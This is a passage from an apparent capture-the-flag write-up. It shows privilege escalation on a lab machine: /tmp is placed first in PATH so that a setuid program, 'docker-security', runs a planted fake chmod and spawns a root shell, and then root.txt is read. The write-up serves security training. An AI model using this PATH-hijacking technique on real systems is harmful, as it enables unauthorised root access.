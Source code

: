 

I'll also update the `PATH` variable so that `/tmp` is the first
directory checked:



    dexter@laboratory:/tmp$ export PATH=/tmp:$PATH



When `docker-security` runs, when it makes the call to `chmod`, it will
get the `chmod` binary from `/tmp`, which will return a shell:



    dexter@laboratory:/tmp$ docker-security 
    root@laboratory:/tmp#



And I can grab `root.txt`:



    root@laboratory:/root# cat root.txt
    9b147368************************







